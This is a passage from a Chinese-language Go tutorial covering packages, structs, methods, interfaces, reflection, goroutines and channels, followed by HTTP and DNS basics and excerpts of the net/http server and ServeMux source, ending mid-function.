程序的初始化和执行都起始于`main`包。如果`main`包还导入了其它的包，那么就会在编译时将它们依次导入。有时一个包会被多个包同时导入，那么它只会被导入一次（例如很多包可能都会用到`fmt`包，但它只会被导入一次，因为没有必要导入多次）。当一个包被导入时，如果该包还导入了其它的包，那么会先将其它包导入进来，然后再对这些包中的包级常量和变量进行初始化，接着执行`init`函数（如果有的话），依次类推。等所有被导入的包都加载完毕了，就会开始对`main`包中的包级常量和变量进行初始化，然后执行`main`包中的`init`函数（如果存在的话），最后执行`main`函数。下图详细地解释了整个执行过程：


#### import

我们在写Go代码的时候经常用到import这个命令用来导入包文件，而我们经常看到的方式参考如下：

```go
import(
    "fmt"
)
```

然后我们代码里面可以通过如下的方式调用

```go
fmt.Println("hello world")
```

上面这个fmt是Go语言的标准库，其实是去`GOROOT`环境变量指定目录下去加载该模块，当然Go的import还支持如下两种方式来加载自己写的模块：

1. 相对路径

   ```go
   //当前文件同一目录的model目录，但是不建议这种方式来import
   import "./model"
   ```

2. 绝对路径

   ```go
   //加载gopath/src/shorturl/model模块
   import "shorturl/model"
   ```

下面还有一些 import 常用的方式：

1. 点操作

   ```go
   import(
      . "fmt"
   )
   ```

   这个点操作的含义就是这个包导入之后在你调用这个包的函数时，你可以省略前缀的包名，也就是前面你调用的 fmt.Println("hello world") 可以省略的写成 Println("hello world")

2. 别名操作

   别名操作顾名思义我们可以把包命名成另一个我们用起来容易记忆的名字

   ```go
   import(
      f "fmt"	
   )
   ```

   别名操作的话调用包函数时前缀变成了我们的前缀，即 f.Println("hello world")

3. _ 操作

   ```go
   import (
       "database/sql"
       _ "github.com/ziutek/mymysql/godrv"
   )
   ```

   _ 操作其实是引入该包，而不直接使用包里面的函数，而是调用了该包里面的 init 函数。


### Struct

#### 定义

Go语言中，也和C或者其他语言一样，我们可以声明新的类型，作为其它类型的属性或字段的容器。例如，我们可以创建一个自定义类型`person`代表一个人的实体。这个实体拥有属性：姓名和年龄。这样的类型我们称之`struct`。如下代码所示:

```go
type person struct {
	name string
	age int
}
```

我们可以通过以下四种方式来初始化这类结构体：

1. 依次赋值属性

```go
var P person  // P现在就是person类型的变量了
P.name = "Astaxie"  
P.age = 25
```

2. 按照顺序提供初始化值 (这样顺序必须是与结构体申明时保持一致)

```go
P := person{"Tom", 25}
```

3. 通过`field:value`的方式初始化，这样可以任意顺序：

```go
P := person{age:24, name:"Tom"}
```

4. 当然也可以通过 `new` 函数分配一个指针，此处 P 的类型为 *person：

```go
P := new(person)
P.name = "Astaxie"  
P.age = 25
```

#### struct 的匿名字段

我们上面介绍了如何定义一个struct，定义的时候是字段名与其类型一一对应，实际上Go支持只提供类型，而不写字段名的方式，也就是匿名字段，也称为嵌入字段。

当匿名字段是一个struct的时候，那么这个struct所拥有的全部字段都被隐式地引入了当前定义的这个struct。

举个栗子：

```go
package main

import "fmt"

type Human struct {
	name string
	age int
	weight int
}

type Student struct {
	Human  // 匿名字段，那么默认Student就包含了Human的所有字段
	speciality string
}

func main() {
	// 我们初始化一个学生
	mark := Student{Human{"Mark", 25, 120}, "Computer Science"}

	// 我们访问相应的字段
	fmt.Println("His name is ", mark.name)
	fmt.Println("His age is ", mark.age)
	fmt.Println("His weight is ", mark.weight)
	fmt.Println("His speciality is ", mark.speciality)
}
```

通过匿名访问和修改字段相当的有用，但是不仅仅是struct字段，**所有的内置类型和自定义类型都是可以作为匿名字段。**

```go
type Skills []string

type Human struct {
	name string
	age int
	weight int
}

type Student struct {
	Human  // 匿名字段，struct
	Skills // 匿名字段，自定义的类型string slice
	int    // 内置类型作为匿名字段
	speciality string
}
```

**但如果存在同名的字段，最外层的会优先访问。**也就是当你通过 `student.phone` 访问的时候，是访问 student 里面的字段，而不是 human 里面的字段。

这样就允许我们去重载通过匿名字段继承的一些字段，当然如果我们想访问重载后对应匿名类型里面的字段，可以通过匿名字段名来访问。请看下面的例子：

```go
package main

import "fmt"

type Human struct {
	name string
	age int
	phone string  // Human类型拥有的字段
}

type Employee struct {
	Human  // 匿名字段Human
	speciality string
	phone string  // 雇员的phone字段
}

func main() {
	Bob := Employee{Human{"Bob", 34, "777-444-XXXX"}, "Designer", "333-222"}
	fmt.Println("Bob's work phone is:", Bob.phone)
	// 如果我们要访问Human的phone字段
	fmt.Println("Bob's personal phone is:", Bob.Human.phone)
}
```


### 面向对象

#### method

```go
func (r ReceiverType) funcName(parameters) (results)
```

在使用method的时候重要注意几点：

- 虽然method的名字一模一样，但是如果接收者不一样，那么method就不一样
- method里面可以访问接收者的字段
- 调用method通过`.`访问，就像struct里面访问字段一样

上面的 method 是以值传递，而非引用传递，Receiver还可以是指针, **两者的差别在于, 指针作为Receiver会对实例对象的内容发生操作,而普通类型作为Receiver仅仅是以副本作为操作对象,并不对原实例对象发生操作。**

另外，method 不仅仅作用在 struct 上，他也可以定义在任何你自定义的类型、内置类型、struct 等各种类型上面。此处的自定义类型是指通过如下这样的申明来实现的：

```go
type typeName typeLiteral
```

例如：

```go
type ages int
type money float32
type months map[string]int

m := months {
	"January":31,
	"February":28,
	...
	"December":31,
}
```

#### 指针作为 method 的 receiver

* 如果一个 method 的 receiver 是 *T ，你可以在一个 T 类型的实例变量 V 上面调用这个 method，而不需要 &V 去调用这个 method，Go 会自动帮你转换成 &V
* 如果一个 method 的 receiver 是 T，你可以在一个 *T 类型的变量 P 上面调用这个 method，而不需要 *P 去调用这个 method，Go 会自动帮你转换成 *P

#### method 的继承

method也是可以继承的。如果匿名字段实现了一个method，那么包含这个匿名字段的struct也能调用该method。

```go
package main

import "fmt"

type Human struct {
	name string
	age int
	phone string
}

type Student struct {
	Human //匿名字段
	school string
}

type Employee struct {
	Human //匿名字段
	company string
}

//在human上面定义了一个method
func (h *Human) SayHi() {
	fmt.Printf("Hi, I am %s you can call me on %s\n", h.name, h.phone)
}

func main() {
	mark := Student{Human{"Mark", 25, "222-222-YYYY"}, "MIT"}
	sam := Employee{Human{"Sam", 45, "111-888-XXXX"}, "Golang Inc"}

	mark.SayHi()
	sam.SayHi()
}
```

#### method 重写

上面的例子中，如果Employee想要实现自己的SayHi,怎么办？简单，和匿名字段冲突一样的道理，我们可以在Employee上面定义一个method，重写了匿名字段的方法。

```go
//Employee的method重写Human的method
func (e *Employee) SayHi() {
	fmt.Printf("Hi, I am %s, I work at %s. Call me on %s\n", e.name,
		e.company, e.phone) //Yes you can split into 2 lines here.
}
```

#### method 访问控制

没有任何的私有、公有关键字，通过大小写来实现(大写开头的为公有，小写开头的为私有)，变量和方法都适用这个原则。


### interface

#### 语法

```go
// 定义interface
type Men interface {
	SayHi()
	Sing(lyrics string)
	Guzzle(beerStein string)
}
```

#### 空 interface

空interface(interface{})不包含任何的method，正因为如此，所有的类型都实现了空interface。

空interface对于描述起不到任何的作用(因为它不包含任何的method），**但是空interface在我们需要存储任意类型的数值的时候相当有用，因为它可以存储任意类型的数值。它有点类似于 C 语言的 void * 类型。**

```go
// 定义a为空接口
var a interface{}
var i int = 5
s := "Hello world"
// a可以存储任意类型的数值
a = i
a = s
```

一个函数把 interface{} 作为参数，那么他可以接受任意类型的值作为参数，如果一个函数返回 interface{}，那么也就可以返回任意类型的值。

#### interface 函数参数

interface 的变量可以持有任意实现该 interface 类型的对象，这给我们编写函数(包括 method )提供了一些额外的思考，我们是不是可以通过定义interface参数，让函数接受各种类型的参数。

举个例子：fmt.Println 是我们常用的一个函数，但是你是否注意到它可以接受任意类型的数据。打开 fmt 的源码文件，你会看到这样一个定义:

```go
type Stringer interface {
	 String() string
}
```

也就是说，任何实现了 String 方法的类型都能作为参数被 fmt.Println 调用。

```go
package main
import (
	"fmt"
	"strconv"
)

type Human struct {
	name string
	age int
	phone string
}

// 通过这个方法 Human 实现了 fmt.Stringer
func (h Human) String() string {
	return "❰"+h.name+" - "+strconv.Itoa(h.age)+" years -  ✆ " +h.phone+"❱"
}

func main() {
	Bob := Human{"Bob", 39, "000-7777-XXX"}
	fmt.Println("This Human is : ", Bob)
}
```

另外，实现了 error 接口的对象（即实现了 Error() string 的对象），使用 fmt 输出时，会调用 Error() 方法，因此不必再定义 String() 方法了。

#### interface 变量存储的类型

interface 的变量里面可以存储任意类型的数值(该类型实现了interface)。那么我们怎么反向知道这个变量里面实际保存了的是哪个类型的对象呢？目前常用的有两种方法：

1. **Comma-ok断言**

Go语言里面有一个语法，可以直接判断是否是该类型的变量： value, ok = element.(T)，这里value就是变量的值，ok是一个bool类型，element是interface变量，T是断言的类型。

如果element里面确实存储了T类型的数值，那么ok返回true，否则返回false。

2. **Switch匹配**

```go
for index, element := range list{
  switch value := element.(type) {
    case int:
      fmt.Printf("list[%d] is an int and its value is %d\n", index, value)
    case string:
      fmt.Printf("list[%d] is a string and its value is %s\n", index, value)
    case Person:
      fmt.Printf("list[%d] is a Person and its value is %s\n", index, value)
    default:
      fmt.Println("list[%d] is of a different type", index)
  }
}
```

注意的是，`element.(type)` 语法不能在switch外的任何逻辑里面使用，如果你要在switch外面判断一个类型就使用 `comma-ok` 。

#### interface 的继承

interface 支持和 method 一样的匿名字段嵌入方式实现其他语言的继承。

比如 Go 源码包的 io.ReadWriter ，它包含了 io 包下面的 Reader 和 Writer 两个 interface：

```go
// io.ReadWriter
type ReadWriter interface {
	Reader
	Writer
}
```

即如果一个类型需要实现 ReadWriter 协议，须遵循 Reader 和 Writer 两个协议的所有方法。

#### 反射

Go语言实现了反射，所谓反射就是能检查程序在运行时的状态。我们一般用到的包是reflect包。如何运用reflect包，官方的这篇文章详细的讲解了reflect包的实现原理 —— [laws of reflection](http://golang.org/doc/articles/laws_of_reflection.html) 。

使用reflect一般分成三步，下面简要的讲解一下：要去反射是一个类型的值(这些值都实现了空interface)，首先需要把它转化成reflect对象(reflect.Type或者reflect.Value，根据不同的情况调用不同的函数)。这两种获取方式如下：

```go
t := reflect.TypeOf(i)    //得到类型的元数据,通过t我们能获取类型定义里面的所有元素
v := reflect.ValueOf(i)   //得到实际的值，通过v我们获取存储在里面的值，还可以去改变值
```

转化为reflect对象之后我们就可以进行一些操作了，也就是将reflect对象转化成相应的值，例如

```go
type myStruct struct {
	name string
	age int
}

s := myStruct{
  name: "szy",
  age: 25,
}
v := reflect.ValueOf(&s)
t := reflect.TypeOf(&s)
tag := t.Elem().Field(0).Name  //获取定义在struct里面的标签
name := v.Elem().Field(0).String()  //获取存储在第一个字段里面的值
println(tag)
println(name)
```

最后，反射的话，那么反射的字段必须是可修改的，我们前面学习过传值和传引用，这个里面也是一样的道理。反射的字段必须是可读写的意思是，如果下面这样写，那么会发生错误：

```go
var x float64 = 3.4
v := reflect.ValueOf(x)
v.SetFloat(7.1)
```

如果要修改相应的值，必须这样写：

```go
var x float64 = 3.4
p := reflect.ValueOf(&x)
v := p.Elem()
v.SetFloat(7.1)
```


### 并发

#### goroutine

goroutine是Go并行设计的核心。goroutine说到底其实就是协程，但是它比线程更小，十几个goroutine可能体现在底层就是五六个线程，Go语言内部帮你实现了这些goroutine之间的内存共享。执行goroutine只需极少的栈内存(大概是4~5KB)，当然会根据相应的数据伸缩。也正因为如此，可同时运行成千上万个并发任务。goroutine比thread更易用、更高效、更轻便。

goroutine 是通过 Go 的 runtime 管理的一个线程管理器。goroutine 通过 `go` 关键字实现了，其实就是一个普通的函数。

通过关键字go就启动了一个goroutine。我们来看一个例子：

```go
package main

import (
	"fmt"
	"runtime"
)

func say(s string) {
	for i := 0; i < 5; i++ {
		runtime.Gosched()
		fmt.Println(s)
	}
}

func main() {
	go say("world") //开一个新的Goroutines执行
	say("hello") //当前Goroutines执行
}

// 以上程序执行后将输出：
// hello
// world
// hello
// world
// hello
// world
// hello
// world
// hello
```

上面的多个 goroutine 运行在同一个进程里面，共享内存数据，不过设计上我们要遵循：**不要通过共享来通信，而要通过通信来共享。**

> runtime.Gosched() 表示让 CPU 把时间片让给别人,下次某个时候继续恢复执行该 goroutine。

> 默认情况下，在 Go 1.5 以后将标识并发系统线程个数的 runtime.GOMAXPROCS 的初始值由 1 改为了运行环境的CPU核数。

#### channels

goroutine 运行在相同的地址空间，因此访问共享内存必须做好同步。那么 goroutine 之间如何进行数据的通信呢，Go 提供了一个很好的通信机制 channel。channel 可以与 Unix shell 中的双向管道做类比：可以通过它发送或者接收值。这些值只能是特定的类型：channel 类型。定义一个 channel 时，也需要定义发送到 channel 的值的类型。**注意，必须使用 make 创建 channel：**

```go
ci := make(chan int)
cs := make(chan string)
cf := make(chan interface{})
```

channel 通过操作符 `<-` 来接收和发送数据：

```go
ch <- v    // 发送v到channel ch.
v := <-ch  // 从ch中接收数据，并赋值给v
```

我们把这些应用到我们的例子中来：

```go
package main

import "fmt"

func sum(a []int, c chan int) {
	total := 0
	for _, v := range a {
		total += v
	}
	c <- total  // send total to c
}

func main() {
	a := []int{7, 2, 8, -9, 4, 0}

	c := make(chan int)
	go sum(a[:len(a)/2], c)
	go sum(a[len(a)/2:], c)
	x, y := <-c, <-c  // receive from c

	fmt.Println(x, y, x + y)
}
```

**默认情况下，channel 接收和发送数据都是阻塞的。**除非另一端已经准备好，这样就使得 Goroutines 同步变的更加的简单，而不需要显式的 lock。所谓阻塞，也就是如果读取（value := <-ch）它将会被阻塞，直到有数据接收。其次，任何发送（ch<-5）将会被阻塞，直到数据被读出。无缓冲 channel 是在多个 goroutine 之间同步很棒的工具。

#### Buffered Channels

上面我们介绍了默认的非缓存类型的 channel，不过 Go 也允许指定 channel 的缓冲大小，很简单，就是 channel 可以存储多少元素。ch:= make(chan bool, 4)，创建了可以存储4个元素的 bool 型 channel。在这个 channel 中，前4个元素可以无阻塞的写入。当写入第5个元素时，代码将会阻塞，直到其他 goroutine 从 channel 中读取一些元素，腾出空间。

```go
ch := make(chan type, value)
```

当 value = 0 时，channel 是无缓冲阻塞读写的，当 value > 0 时，channel 有缓冲、是非阻塞的，直到写满 value 个元素才阻塞写入。

#### Range 和 Close

上面这个例子中，我们需要读取两次 c，这样不是很方便，Go 考虑到了这一点，所以也可以通过 range，像操作slice 或者 map 一样操作缓存类型的 channel，请看下面的例子：

```go
package main

import (
	"fmt"
)

func fibonacci(n int, c chan int) {
	x, y := 1, 1
	for i := 0; i < n; i++ {
		c <- x
		x, y = y, x + y
	}
	close(c)
}

func main() {
	c := make(chan int, 10)
	go fibonacci(cap(c), c)
	for i := range c {
		fmt.Println(i)
	}
}
```

`for i := range c ` 能够不断的读取 channel 里面的数据，直到该 channel 被显式的关闭。上面代码我们看到可以显式的关闭 channel，生产者通过内置函数 `close` 关闭 channel。关闭 channel 之后就无法再发送任何数据了，在消费方可以通过语法 `v, ok := <-ch` 测试 channel 是否被关闭。如果 ok 返回 false，那么说明 channel 已经没有任何数据并且已经被关闭。

> 记住应该在生产者的地方关闭 channel，而不是消费的地方去关闭它，这样容易引起 panic。

> 另外记住一点的就是 channel 不像文件之类的，不需要经常去关闭，只有当你确实没有任何发送数据了，或者你想显式的结束 range 循环之类的。

#### Select

如果存在多个 channel 的时候，Go里面提供了一个关键字 `select`，通过 `select` 可以监听 channel 上的数据流动。

`select` 默认是阻塞的，只有当监听的 channel 中有发送或接收可以进行时才会运行，当多个 channel 都准备好的时候，select 是随机的选择一个执行的。

```go
package main

import "fmt"

func fibonacci(c, quit chan int) {
	x, y := 1, 1
	for {
		select {
		case c <- x:
			x, y = y, x + y
		case <-quit:
			fmt.Println("quit")
			return
		}
	}
}

func main() {
	c := make(chan int)
	quit := make(chan int)
	go func() {
		for i := 0; i < 10; i++ {
			fmt.Println(<-c)
		}
		quit <- 0
	}()
	fibonacci(c, quit)
}
```

在 `select` 里面还有 default 语法，`select` 其实就是类似 switch 的功能，default 就是当监听的 channel 都没有准备好的时候，默认执行的 ( select 不再阻塞等待 channel )。

```go
select {
case i := <-c:
	// use i
default:
	// 当c阻塞的时候执行这里
}
```

#### 超时

有时候会出现 goroutine 阻塞的情况，那么我们如何避免整个程序进入阻塞的情况呢？我们可以利用 select 来设置超时，通过如下的方式实现：

```go
func main() {
	c := make(chan int)
	o := make(chan bool)
	go func() {
		for {
			select {
				case v := <- c:
					println(v)
        // 添加一个超时的 case，当没有匹配到其他 case，则会进入这个 case，来让程序继续执行下去
				case <- time.After(5 * time.Second):
					println("timeout")
					o <- true
					break
			}
		}
	}()
  <- o // 等待数据通过 channel 输出，但是不用变量去接收
}
```

#### runtime goroutine

runtime 包中有几个处理 goroutine 的函数：

- Goexit

  退出当前执行的 goroutine，但是 defer 函数还会继续调用

- Gosched

  让出当前 goroutine 的执行权限，调度器安排其他等待的任务运行，并在下次某个时候从该位置恢复执行。

- NumCPU

  返回 CPU 核数量

- NumGoroutine

  返回正在执行和排队的任务总数

- GOMAXPROCS

  用来设置可以并行计算的 CPU 核数的最大值，并返回之前的值。


## *4. Web 基础*

### a. Web 工作方式

#### DNS工作原理

DNS(Domain Name System)是“域名系统”的英文缩写，是一种组织成域层次结构的计算机和网络服务命名系统，它用于TCP/IP网络，它从事将主机名或域名转换为实际IP地址的工作。DNS就是这样的一位“翻译官”，它的基本工作原理可用下图来表示。


更详细的 DNS 解析的过程如下，这个过程有助于我们理解 DNS 的工作模式

1. 在浏览器中输入 www.qq.com 域名，操作系统会先检查自己本地的 hosts 文件是否有这个网址映射关系，如果有，就先调用这个 IP 地址映射，完成域名解析。
2. 如果 hosts 里没有这个域名的映射，则查找本地 DNS 解析器缓存，是否有这个网址映射关系，如果有，直接返回，完成域名解析。
3. 如果 hosts 与本地 DNS 解析器缓存都没有相应的网址映射关系，首先会找 TCP/IP 参数中设置的首选 DNS 服务器，在此我们叫它本地 DNS 服务器，此服务器收到查询时，如果要查询的域名，包含在本地配置区域资源中，则返回解析结果给客户机，完成域名解析，此解析具有权威性。
4. 如果要查询的域名，不由本地 DNS 服务器区域解析，但该服务器已缓存了此网址映射关系，则调用这个IP地址映射，完成域名解析，此解析不具有权威性。
5. 如果本地 DNS 服务器本地区域文件与缓存解析都失效，则根据本地 DNS 服务器的设置（是否设置转发器）进行查询，如果未用转发模式，本地 DNS 就把请求发至 “根 DNS 服务器”，“根 DNS 服务器”收到请求后会判断这个域名 (.com) 是谁来授权管理，并会返回一个负责该顶级域名服务器的一个 IP。本地 DNS 服务器收到 IP 信息后，将会联系负责 .com 域的这台服务器。这台负责 .com 域的服务器收到请求后，如果自己无法解析，它就会找一个管理 .com 域的下一级 DNS 服务器地址 (qq.com) 给本地 DNS 服务器。当本地 DNS 服务器收到这个地址后，就会找 qq.com 域服务器，重复上面的动作，进行查询，直至找到 www.qq.com 主机。
6. 如果用的是转发模式，此DNS服务器就会把请求转发至上一级 DNS 服务器，由上一级服务器进行解析，上一级服务器如果不能解析，或找根 DNS 或把转请求转至上上级，以此循环。不管本地 DNS 服务器用的是转发，还是根提示，最后都是把结果返回给本地 DNS 服务器，由此 DNS 服务器再返回给客户机。


通过上面的步骤，我们最后获取的是IP地址，也就是浏览器最后发起请求的时候是基于IP来和服务器做信息交互的。

#### HTTP 协议

HTTP 协议是 Web 工作的核心，所以要了解清楚 Web 的工作方式就需要详细的了解清楚 HTTP 是怎么样工作的。

HTTP 是一种让 Web 服务器与浏览器(客户端)通过 Internet 发送与接收数据的协议,它建立在 TCP 协议之上，一般采用 TCP 的 80 端口。它是一个请求、响应协议--客户端发出一个请求，服务器响应这个请求。在 HTTP 中，客户端总是通过建立一个连接与发送一个 HTTP 请求来发起一个事务。服务器不能主动去与客户端联系，也不能给客户端发出一个回调连接。客户端与服务器端都可以提前中断一个连接。例如，当浏览器下载一个文件时，你可以通过点击“停止”键来中断文件的下载，关闭与服务器的 HTTP 连接。

HTTP 协议是无状态的，同一个客户端的这次请求和上次请求是没有对应关系的，对 HTTP 服务器来说，它并不知道这两个请求是否来自同一个客户端。为了解决这个问题， Web 程序引入了 Cookie 机制来维护连接的可持续状态。

> HTTP 协议是建立在 TCP 协议之上的，因此 TCP 攻击一样会影响 HTTP 的通讯，例如比较常见的一些攻击：SYN Flood 是当前最流行的 DoS（拒绝服务攻击）与 DdoS（分布式拒绝服务攻击）的方式之一，这是一种利用 TCP 协议缺陷，发送大量伪造的 TCP 连接请求，从而使得被攻击方资源耗尽（CPU满负荷或内存不足）的攻击方式。

#### HTTP 请求包

Request 包分为 3 部分，第一部分叫 Request line (请求行)， 第二部分叫 Request header (请求头)，第三部分是 body (主体) 。header 和 body 之间有个空行，请求包的例子所示:

```
GET /domains/example/ HTTP/1.1		//请求行: 请求方法 请求URI HTTP协议/协议版本
Host：www.iana.org				//服务端的主机名
User-Agent：Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.4 (KHTML, like Gecko) Chrome/22.0.1229.94 Safari/537.4			//浏览器信息
Accept：text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8	//客户端能接收的MIME
Accept-Encoding：gzip,deflate,sdch		//是否支持流压缩
Accept-Charset：UTF-8,*;q=0.5		//客户端字符编码集
//空行,用于分割请求头和消息体
//消息体,请求资源参数,例如POST传递的参数
```

#### HTTP 响应包

我们再来看看 HTTP 的 response 包，他的结构如下：

```
HTTP/1.1 200 OK						//状态行
Server: nginx/1.0.8					//服务器使用的WEB软件名及版本
Date:Date: Tue, 30 Oct 2012 04:14:25 GMT		//发送时间
Content-Type: text/html				//服务器发送信息的类型
Transfer-Encoding: chunked			//表示发送HTTP包是分段发的
Connection: keep-alive				//保持连接状态，否则是closed
Content-Length: 90					//主体内容长度
//空行 用来分割消息头和主体
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"... //消息体
```

Response 包中的第一行叫做状态行，由 HTTP 协议版本号， 状态码， 状态消息 三部分组成。

状态码用来告诉 HTTP 客户端,HTTP服务器是否产生了预期的 Response。HTTP/1.1 协议中定义了 5 类状态码， 状态码由三位数字组成，第一个数字定义了响应的类别

- 1XX 提示信息 - 表示请求已被成功接收，继续处理
- 2XX 成功 - 表示请求已被成功接收，理解，接受
- 3XX 重定向 - 要完成请求必须进行更进一步的处理
- 4XX 客户端错误 - 请求有语法错误或请求无法实现
- 5XX 服务器端错误 - 服务器未能实现合法的请求

#### HTTP 协议是无状态的

无状态是指协议对于事务处理没有记忆能力，服务器不知道客户端是什么状态。从另一方面讲，打开一个服务器上的网页和你之前打开这个服务器上的网页之间没有任何联系。

HTTP 是一个无状态的面向连接的协议，无状态不代表 HTTP 不能保持 TCP 连接，更不能代表 HTTP 使用的是 UDP 协议（面对无连接）。

#### Connection：keep-alive

从 HTTP/1.1 起，默认都开启了 Keep-Alive 保持连接特性，简单地说，当一个网页打开完成后，客户端和服务器之间用于传输 HTTP 数据的 TCP 连接不会关闭，如果客户端再次访问这个服务器上的网页，会继续使用这一条已经建立的 TCP 连接。

Keep-Alive 不会永久保持连接，它有一个保持时间，可以在不同服务器软件（如 Apache）中设置这个时间。


### b. Go 搭建一个 Web 服务器

#### http 包建立 Web 服务器

```go
package main

import (
	"fmt"
	"net/http"
	"strings"
	"log"
)

func sayhelloName(w http.ResponseWriter, r *http.Request) {
	r.ParseForm()  //解析参数，默认是不会解析的
	fmt.Println(r.Form)  //这些信息是输出到服务器端的打印信息
	fmt.Println("path", r.URL.Path)
	fmt.Println("scheme", r.URL.Scheme)
	fmt.Println(r.Form["url_long"])
	for k, v := range r.Form {
		fmt.Println("key:", k)
		fmt.Println("val:", strings.Join(v, ""))
	}
	fmt.Fprintf(w, "Hello Golang!") //这个写入到w的是输出到客户端的
}

func main() {
	http.HandleFunc("/", sayhelloName) //设置访问的路由
	err := http.ListenAndServe(":9090", nil) //设置监听的端口
	if err != nil {
		log.Fatal("ListenAndServe: ", err)
	}
}
```

build 之后，然后执行，这个时候程序其实已经在 9090 端口监听 http 链接请求了。

在浏览器输入 `http://localhost:9090`

可以看到浏览器页面输出了 `Hello Golang!`

可以换一个地址试试：`http://localhost:9090/?name=szy&age=25`

我们看到Go通过简单的几行代码就已经运行起来一个Web服务了，而且这个Web服务内部有支持高并发的特性。


### c. http 包运行机制

#### Web 工作的几个概念

Request：用户请求的信息，用来解析用户的请求信息，包括post、get、cookie、url等信息

Response：服务器需要反馈给客户端的信息

Conn：用户的每次请求链接

Handler：处理请求和生成返回信息的处理逻辑

#### http 包运行流程


1. 创建 Listen Socket, 监听指定的端口, 等待客户端请求到来。
2. Listen Socket 接受客户端的请求, 得到 Client Socket, 接下来通过 Client Socket 与客户端通信。
3. 处理客户端的请求, 首先从 Client Socket读取 HTTP 请求的协议头, 如果是 POST 方法, 还可能要读取客户端提交的数据, 然后交给相应的 handler 处理请求, handler 处理完毕准备好客户端需要的数据, 通过 Client Socket 写给客户端。

这整个的过程里面我们只要了解清楚下面三个问题，也就知道 Go 是如何让 Web 运行起来了：

- 如何监听端口？
- 如何接收客户端请求？
- 如何分配 handler？

前面小节的代码里面我们可以看到，Go 是通过一个函数 `ListenAndServe` 来处理这些事情的，这个底层其实这样处理的：初始化一个 server 对象，然后调用了 `net.Listen("tcp", addr)`，也就是底层用 TCP 协议搭建了一个服务，然后监控我们设置的端口。

下面代码来自 Go 的 http 包的源码，通过下面的代码我们可以看到整个的 http 处理过程：

```go
func (srv *Server) Serve(l net.Listener) error {
	defer l.Close()
	var tempDelay time.Duration // how long to sleep on accept failure
	for {
    // 接收到客户端的请求
    // rw：实现 io.readWriteCloser 协议的对象
		rw, e := l.Accept()
    // 如果出现异常，则休眠指定的时间
		if e != nil {
			if ne, ok := e.(net.Error); ok && ne.Temporary() {
				if tempDelay == 0 {
					tempDelay = 5 * time.Millisecond
				} else {
					tempDelay *= 2
				}
				if max := 1 * time.Second; tempDelay > max {
					tempDelay = max
				}
				log.Printf("http: Accept error: %v; retrying in %v", e, tempDelay)
				time.Sleep(tempDelay)
				continue
			}
			return e
		}
		tempDelay = 0
    // 如果没有异常，就创建一个新的 conn
		c, err := srv.newConn(rw)
		if err != nil {
			continue
		}
    // 然后将客户端的请求处理放到新的 goroutine 去处理
		go c.serve()
	}
}
```

监控之后如何接收客户端的请求呢？上面代码执行监控端口之后，调用了 `srv.Serve(net.Listener)` 函数，这个函数就是处理接收客户端的请求信息。这个函数里面起了一个 `for{}`，首先通过 Listener 接收请求，其次创建一个 Conn，最后单独开了一个 goroutine，把这个请求的数据当做参数扔给这个 conn 去服务：`go c.serve()`。这个就是高并发的体现，**用户的每一次请求都是在一个新的 goroutine 去服务，相互不影响。**

那么如何具体分配到相应的函数来处理请求呢？conn 首先会解析 request: `c.readRequest()`，然后获取相应的handler: `handler := c.server.Handler`，也就是我们刚才在调用函数 `ListenAndServe` 时候的第二个参数，我们前面例子传递的是 nil，也就是为空，那么 **默认获取 `handler = DefaultServeMux`，**那么这个变量用来做什么的呢？对，**这个变量就是一个路由器，它用来匹配 url 跳转到其相应的 handle 函数**，我们调用的代码里面第一句不是调用了 `http.HandleFunc("/", sayhelloName)` 嘛。这个作用就是注册了请求`/`的路由规则，当请求 uri 为"/"，路由就会转到函数 sayhelloName，DefaultServeMux 会调用 ServeHTTP 方法，这个方法内部其实就是调用 sayhelloName本身，最后通过写入 response 的信息反馈到客户端。

详细的整个流程如下图所示：



#### http ServeMux(路由器)实现

我们前面小节讲述conn.server的时候，其实内部是调用了http包默认的路由器，通过路由器把本次请求的信息传递到了后端的处理函数。那么这个路由器是怎么实现的呢？

它的结构如下：

```go
type ServeMux struct {
	mu sync.RWMutex   //锁，由于请求涉及到并发处理，因此这里需要一个锁机制
	m  map[string]muxEntry  // 路由规则，一个string对应一个mux实体，这里的string就是注册的路由表达式
	hosts bool // 是否在任意的规则中带有host信息
}
```

下面看一下 muxEntry：

```go
type muxEntry struct {
	explicit bool   // 是否精确匹配
	h        Handler // 这个路由表达式对应哪个handler
	pattern  string  //匹配字符串
}
```

接着看一下 Handler 的定义：

```go
type Handler interface {
	ServeHTTP(ResponseWriter, *Request)  // 路由实现器
}
```

Handler 是一个接口，但是前一小节中的 `sayhelloName` 函数并没有实现 ServeHTTP 这个接口，为什么能添加呢？原来在 http 包里面还定义了一个类型 `HandlerFunc`，我们定义的函数 `sayhelloName` 就是这个 HandlerFunc 调用之后的结果，这个类型默认就实现了 ServeHTTP 这个接口，即我们调用了 HandlerFunc(f)，强制类型转换 f 成为 HandlerFunc 类型，这样 f 就拥有了 ServeHTTP 方法。

```go
type HandlerFunc func(ResponseWriter, *Request)

// ServeHTTP calls f(w, r).
func (f HandlerFunc) ServeHTTP(w ResponseWriter, r *Request) {
	f(w, r)
}
```

路由器里面存储好了相应的路由规则之后，那么具体的请求又是怎么分发的呢？请看下面的代码，默认的路由器实现了 `ServeHTTP` ：

```go
func (mux *ServeMux) ServeHTTP(w ResponseWriter, r *Request) {
	if r.RequestURI == "*" {
		w.Header().Set("Connection", "close")
		w.WriteHeader(StatusBadRequest)
		return
	}
  // 去匹配对应路由表中的 handler
	h, _ := mux.Handler(r)
	h.ServeHTTP(w, r)
}
```

如上所示路由器接收到请求之后，如果是 `*` 那么关闭链接，不然调用 `mux.Handler(r)` 返回对应设置路由的处理 Handler，然后执行 `h.ServeHTTP(w, r)`。

也就是调用对应路由的 handler 的 ServerHTTP 接口，那么 mux.Handler(r) 怎么处理的呢？

```go
func (mux *ServeMux) Handler(r *Request) (h Handler, pattern string) {
	if r.Method != "CONNECT" {
		if p := cleanPath(r.URL.Path); p != r.URL.Path {
			_, pattern = mux.handler(r.Host, p)
			return RedirectHandler(p, StatusMovedPermanently), pattern
		}
	}	
	return mux.handler(r.Host, r.URL.Path)
}

func (mux *ServeMux) handler(host, path string) (h Handler, pattern string) {
	mux.mu.RLock()
	defer mux.mu.RUnlock()

	// Host-specific pattern takes precedence over generic ones
  // 特定于主机的模式优先于通用模式
	if mux.hosts {
		h, pattern = mux.match(host + path)
	}
	if h == nil {
		h, pattern = mux.match(path)
	}
	if h == nil {
